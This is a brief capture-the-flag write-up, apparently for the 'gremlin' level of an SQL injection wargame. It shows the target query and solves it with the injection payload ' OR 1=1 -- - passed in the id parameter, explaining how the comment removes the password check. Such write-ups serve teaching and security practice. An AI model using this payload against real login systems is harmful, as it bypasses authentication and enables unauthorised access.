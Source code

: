 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b61527a1-dd8e-479b-b0e7-5cb6d58a8823)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='' AND pw=''
```

In order to make the result of this query `True`, we can provide the following URI:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/5c172a9d-3333-45b6-bd48-edc0e2def822)
